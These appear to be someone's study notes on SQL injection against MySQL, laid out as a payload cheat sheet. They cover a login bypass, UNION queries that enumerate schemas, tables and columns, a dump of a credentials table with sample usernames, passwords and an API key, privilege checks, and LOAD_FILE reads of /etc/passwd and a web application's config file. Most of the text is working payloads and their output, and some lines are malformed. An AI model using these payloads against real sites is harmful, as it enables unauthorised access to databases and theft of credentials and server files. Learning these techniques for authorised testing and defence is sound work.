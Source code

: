 
SELECT * FROM logins WHERE username='admin' AND password = '47bce5c74f589f4867dbd57e9ca9f808';

admin') or '1'='1'-- -

SELECT * FROM logins WHERE (username='admin' AND id > 1)-- - AND password = '47bce5c74f589f4867dbd57e9ca9f808';

test' OR id = 5)-- -
toma' OR id = 
test' OR id = 4)-- -

# dump name databases

UNION select 1,database(),2,3-- -

## dump databases;
this command mysql dump all data;
		UNION select 1,2,SCHEMA_NAME,4 FROM INFORMATION_SCHEMA.SCHEMATA-- - 
		
example:
		UNION select 1,2,schema_name,4 from INFORMATION_SCHEMA.SCHEMATA-- -
		DATABSES="information_schema,mysqL,performance_schema,backup,dev"

## dump tables

	' UNION select 1,TABLE_NAME,TABLE_SCHEMA,4 from INFORMATION_SCHEMA.TABLES where table_schema='name_db'-- -

example

	' union select 1,table_name,table_schema,4 from information_schema.tables where table_schema='dev'-- -
	TABLES="framework,pages,credentials,posts"

## dump columns

	' UNION select 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA from INFORMATION_SCHEMA.COLUMNS where table_name='credentials'-- -

example
	' union select 1,column_name,table_name,table_schema from information_schema.columns where table_name='credentials'-- -

COLUMNS="username,password"

## dump data

	UNION select 1, username, password, 4 from dev.credentials-- -
example :
	union select  1,username,password 4 from dev.credentials-- -
	union select  1,2,group_concat(username,":",password),4 from dev.credentials-- -

admin	password	
dev_admin	admin123	
api_key	MzkyMDM3ZGJiYTUxZjY5Mjc3DFNGFDmQ2YFGDF2VmYjZkZDU0NmHGFDQgIC0K	
software_engineer	3920aaaaadfsdf37dbba51f692776d6cefb6dd546d

if want understand a lot information linke website mysql
https://dev.mysql.com/doc/refman/8.0/en/information-schema-introduction.html

## Reading Files:

Privileges:eading data is much more common than writing data, which is strictly reserved for privileged users in modern DBMSes, as it can lead to system exploitation, as we will see. For example, in MySQL, the DB user must have the FILE privilege to load a file's content into a table and then dump data from that table and read files. So, let us start by gathering data about our user privileges within the database to decide whether we will read and/or write files to the back-end server.

## DB User:
	SELECT USER()
	SELECT CURRENT_USER()
	SELECT user from mysql.user

command : 
		UNION SELECT 1, user(), 3, 4-- -
		UNION SELECT 1, user, 3, 4 from mysql.user-- -

## User Privileges
Now that we know our users, we can start looking for what privileges we have with that user. First of all, we can test if we have super admin privileges with the following query:

SELECT super_priv FROM mysql.user

example:
	
		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user-- -

## Notes:
 		UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -
		THis payload return in page ('Y') which means YES, indicating superuser privileges. We can also dump other privileges we have directly

SELECT sql_grants FROM information_schema.sql_show_grants

Once again, we can add WHERE user="root" to only show our current user root privileges. Our payload would be:

' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges-- -
return in page YES or Y 

all of the possible privileges given to our current user:


## LOAD_FILE:
		SELECT LOAD_FILE('/etc/passwd');
	example:
	 	UNION SELECT 1, LOAD_FILE("/etc/passwd"), 3, 4-- -

	 	Another Example:
	 		We know that the current page is index.php. The default Apache webroot is /var/www/html. Let us try reading the source code of the file at /var/www/html/index.php
	 		UNION SELECT 1, LOAD_FILE("/var/www/html/config.php"), 3, 4-- -
